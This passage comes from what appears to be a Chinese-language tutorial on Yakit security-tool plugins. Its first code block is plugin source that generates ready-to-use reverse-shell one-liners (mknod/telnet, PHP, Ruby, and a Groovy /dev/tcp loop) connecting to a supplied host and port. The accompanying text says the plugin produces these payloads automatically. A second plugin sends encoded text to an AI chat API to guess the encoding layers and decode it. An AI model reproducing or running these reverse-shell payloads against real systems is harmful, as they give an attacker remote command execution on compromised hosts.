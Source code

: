 ```

    add("# mknod")
    add(sprintf(`mknod backpipe p && telnet %v %v 0<backpipe | /bin/bash 1>backpipe`, host, port))
    add("")

    add("# PHP")
    add(sprintf(`php -r '$sock=fsockopen("%v",%v);exec("/bin/sh -i <&3 >&3 2>&3");'`, host, port))
    add("")

    add(sprintf(`ruby -rsocket -e'f=TCPSocket.open("%v",%v).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'`, host, port))
    add(sprintf(`ruby -rsocket -e 'exit if fork;c=TCPSocket.new("%v","%v");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'`, host, port))
    add(sprintf(`ruby -rsocket -e 'c=TCPSocket.new("%v","%v");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'`, host, port))
    add("")

    add(sprintf(`r = Runtime.getRuntime();p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/%v/%v;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[]);p.waitFor()`, host, port))
    return str.Join(lines, "\n")
}
```  
```

```  
  
划取需要生成payload的数据之后，即可自动生成反弹shellpayload。  
  
![](/articles/wechat2md-1e33d573794294b7fd08667e28796128.png)  
  
**关卡2：AI识别编码插件**  
  
值得一提是yakit更新**AI插件联动此处**，在新的AI中有更新好的体验  
```
handle = func(origin /*string*/) {
    question = f`Given the following encrypted text snippet, it is suspected that the text may have been encoded multiple times using different methods. Please determine the sequence of encodings used as far as possiable and provide the final plaintext after decoding.
Do not include any explanations, only provide a  RFC8259 compliant JSON response  following this format without deviation:
{"cipher":"the ciper text","plain":"the plain text","encoding":"possible encoding, using -> to indicate the process"}\nciper text: \`\`\`${origin}\`\`\`\n\nThe JSON response:`
    result, err = ai.Chat(question)
    if err != nil {
        return "解析失败，错误: %v" % err
    }
    dump(result)
    jsons = json.ExtractJSON(result)
    if len(jsons) > 0 {
        obj = json.loads(jsons[0])
        try {
            plaintext = obj["plain"]
            encoding = obj["encoding"]
            return f"编码步骤:${encoding}\n明文:${plaintext}"
        } catch e {
            log.Error("[Plugin] [OpenAI] Get response from json error: %v", e)
        }
    }

    return "解析失败，请检查是否在全局网络配置中配置了ai key或网络是否存在问题"
}
```  
```

```  
  